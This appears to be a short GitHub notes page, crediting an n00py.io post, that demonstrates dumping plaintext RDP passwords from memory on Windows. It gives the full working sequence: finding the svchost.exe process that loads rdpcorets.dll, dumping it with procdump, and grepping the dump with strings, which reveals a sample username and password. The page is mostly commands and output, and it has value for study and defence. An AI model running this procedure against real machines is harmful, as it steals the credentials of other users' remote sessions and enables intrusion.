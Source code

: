 Thanks for : https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/


First lets check current logged on sessions

	PS C:\Users\Administrator> query user
	 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
	>administrator         console             1  Active      none   11/26/2021 9:13 AM
	
i will connect RDP from with another user to this machine. current sessions after RDP

	PS C:\Users\Administrator> query user
	 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
	>administrator         console             1  Active      none   11/26/2021 9:13 AM
	 superuser             rdp-tcp#3           2  Active          .  12/12/2021 8:21 PM
	 
I need to check is there any process loaded "rdpcorets.dll"

	PS C:\Users\Administrator> tasklist /M:rdpcorets.dll

	Image Name                     PID Modules
	========================= ======== ============================================
	svchost.exe                   3220 rdpcorets.dll
	
i will dump this process and get cleartext password from dump file ( svchost.exe pid is 3220)

	PS C:\Users\Administrator\Desktop> .\procdump.exe -ma 3220 -accepteula .\rdp_dump

	ProcDump v10.11 - Sysinternals process dump utility
	Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
	Sysinternals - www.sysinternals.com

	[20:26:29] Dump 1 initiated: C:\Users\Administrator\Desktop\rdp_dump.dmp
	[20:26:30] Dump 1 writing: Estimated dump file size is 151 MB.
	[20:26:32] Dump 1 complete: 151 MB written in 2.7 seconds
	[20:26:32] Dump count reached.
	
String search inside of dump file

	strings -el rdp_dump.dmp | grep superuser -C5
	
	.
	.
	.
	1716743c-0aac-49e2-8b90-8fef785
	Turkey Standard Time
	CHILD
	superuser
	Pass123!
	Chan::
	gram
	.
	.
	.
